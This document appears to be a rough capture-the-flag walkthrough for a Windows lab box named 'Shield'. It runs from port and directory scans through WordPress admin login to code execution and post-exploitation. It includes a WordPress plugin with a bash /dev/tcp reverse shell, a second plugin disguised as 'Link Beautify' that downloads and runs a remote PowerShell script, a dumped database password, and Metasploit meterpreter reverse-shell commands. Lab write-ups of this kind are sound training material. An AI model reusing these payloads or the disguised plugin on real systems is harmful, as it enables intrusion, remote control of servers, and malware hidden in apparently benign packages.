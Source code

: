 `sudo nmap -p- --min-rate=1000 -sS -A -T4 10.10.10.29`  
PORT     STATE SERVICE VERSION  
80/tcp   open  http    Microsoft IIS httpd 10.0  
| http-methods:  
|_  Potentially risky methods: TRACE  
|_http-server-header: Microsoft-IIS/10.0  
|_http-title: IIS Windows Server  
3306/tcp open  mysql   MySQL (unauthorized)  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose  
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008 (90%)  
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2  
Aggressive OS guesses: Microsoft Windows Server 2016 (90%), Microsoft Windows Server 2012 or Windows Server  2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)  

80 -- IIS
3306 -- MySQL

`mysql -h10.10.10.29`
ERROR 1130 (HY000): Host '10.10.14.74' is not allowed to connect to this MySQL server
Mysql does nol like me

`python3 dirsearch.py -u 10.10.10.29 -E`  
[16:08:35] Starting:  
[16:09:13] 403 -  312B  - /%2e%2e/google.com                                      
[16:11:39] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/   

More
`python3 dirsearch.py -u http://10.10.10.29/wordpress/ -E`  
Target: http://10.10.10.29/wordpress/

[16:19:39] Starting:  
[16:21:35] 301 -    0B  - /wordpress/index.php  ->  http://10.10.10.29/wordpress/                                 
[16:21:42] 200 -   19KB - /wordpress/license.txt                                                        
[16:22:21] 200 -    7KB - /wordpress/readme.html                                               
[16:23:00] 301 -  161B  - /wordpress/wp-admin  ->  http://10.10.10.29/wordpress/wp-admin/                         
[16:23:00] 500 -    3KB - /wordpress/wp-admin/setup-config.php
[16:23:01] 301 -  163B  - /wordpress/wp-content  ->  http://10.10.10.29/wordpress/wp-content/  
[16:23:01] 200 -    0B  - /wordpress/wp-content/  
[16:23:02] 200 -    1KB - /wordpress/wp-admin/install.php        
[16:23:02] 403 -    1KB - /wordpress/wp-content/uploads/                      
[16:23:02] 302 -    0B  - /wordpress/wp-admin/  ->  http://10.10.10.29/wordpress/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&reauth=1  
[16:23:02] 200 -    0B  - /wordpress/wp-config.php           
[16:23:02] 301 -  164B  - /wordpress/wp-includes  ->  http://10.10.10.29/wordpress/wp-includes/  
[16:23:02] 500 -    0B  - /wordpress/wp-includes/rss-functions.php  
[16:23:02] 403 -    1KB - /wordpress/wp-includes/  
[16:23:04] 200 -    3KB - /wordpress/wp-login.php   
[16:23:05] 405 -   42B  - /wordpress/xmlrpc.php     

Burpburpburp  

No SQLi on public search fields    
Well, that is lame... wp content admin is admin:P@s5w0rd! as on previous machine

can uppload plugins right to the admin panel
It does not work by some reason

<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>


Ohhh, come on! That is a windows machine...  

<?php  

/**  
* Plugin Name: Link Beautify  
* Plugin URI: linkbeautify.org   
* Description: Make Links Beautiful  
* Version: 1.442  
* Author: John Smith  
* Author URI: linkbeautify.org   
*/  

echo shell_exec('powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.42/rs.ps1\");');
?>  

`sudo python3 -m http.server 80`  

and regular powershell payload  

`whoami`  
nt authority\iusr  

`hostname`   
Shield  

Let's try escalate   
http://www.fuzzysecurity.com/tutorials/16.html   

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`  
OS Name:                   Microsoft Windows Server 2016 Standard  
OS Version:                10.0.14393 N/A Build 14393  

`net users`

User accounts for   

Administrator            DefaultAccount           Guest                    
The command completed with one or more errors.   

`ipconfig /all`  
blahblahblah  

`route print`  
blahblahblah  

`cat wp-settings.php`  
define('DB_NAME', 'wordpress124');  

/** MySQL database username */  
define('DB_USER', 'wordpressuser124');  

/** MySQL database password */  
define('DB_PASSWORD', 'P_-U9dA6q.B|');  

/** MySQL hostname */   
define('DB_HOST', 'localhost');  

Lets try some metasploit  
``` 
msfvenom --list payloads
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.42 lport=4444 -f raw
msfconsole
set payload php/meterpreter/reverse_tcp
set lhost 10.10.14.42
set lport 4444
```





